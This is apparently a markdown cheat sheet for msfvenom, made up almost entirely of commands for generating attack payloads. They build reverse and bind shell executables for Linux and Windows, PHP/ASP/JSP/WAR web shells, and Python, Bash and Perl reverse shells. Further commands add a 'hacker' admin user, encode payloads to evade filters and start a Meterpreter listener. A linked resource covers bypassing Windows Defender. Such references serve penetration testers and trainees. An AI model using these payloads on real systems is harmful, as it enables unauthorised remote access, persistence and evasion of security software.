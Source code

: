 Msfvenom

# Msfvenom

### Creating a payload

- `msfvenom -p [payload] LHOST=[listeninghost] LPORT=[listeningport]`

To view list of payloads: `msfvenom -l payloads`
To view the payload options: `msfvenom -p windows/x64/meterpreter_reverse_tcp --list-options`

### Creating a payload with encoding

- `msfvenom -p [payload] -e [encoder] -f [formattype] -i [iteration] <var=value> > outputfile`

### Creating a payload using a template

- `msfvenom -p [payload] <var=value> -x [template] -f [formattype] > outputfile`

### Listening for MSfvenom Payloads:

```
msf5>use exploit/multi/handler  
msf5>set payload windows/meterpreter/reverse_tcp  
msf5>set lhost <IP>  
msf5>set lport <PORT>  
msf5> set ExitOnSession false  
msf5>exploit -j  
```
---

### Creating Binaries

Linux
- `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf`
- `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf`
- `msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf`	
- `msfvenom -p linux/x64/shell_bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf`
- `msfvenom -p linux/x64/shell_reverse_tcp RHOST=IP LPORT=PORT -f elf > shell.elf`

Windows
- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe`
- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe`
- `msfvenom -p windows/meterpreter_reverse_http LHOST=IP LPORT=PORT HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -f exe > shell.exe`
- `msfvenom -p windows/meterpreter/bind_tcp RHOST= IP LPORT=PORT -f exe > shell.exe`
- `msfvenom -p windows/shell/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe`	
- `msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe`

Add a user in windows with msfvenom: 

- msfvenom -p windows/adduser USER=hacker PASS=password -f exe > useradd.exe

---

### Web Payloads

PHP
```
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```

ASP
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp
```

JSP
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp
```

WAR
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war
```

---

### Scripting Payloads

Python
```
msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py
```

Bash
```
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh
```

Perl
```
msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl
```

Creating an Msfvenom Payload with an encoder while removing bad charecters:
```
msfvenom -p windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT -f c -e x86/shikata_ga_nai -b "\x0A\x0D"
```

---

Shellcode: For all shellcode see `msfvenom –help-formats` for information as to valid parameters. Msfvenom will output code that is able to be cut and pasted in this language for your exploits.

Linux Based Shellcode
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```

Windows Based Shellcode
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```

---

### Resources:

- https://hacker.house/lab/windows-defender-bypassing-for-meterpreter/
- https://netsec.ws/?p=331
- https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/
- https://www.offensive-security.com/metasploit-unleashed/binary-payloads/

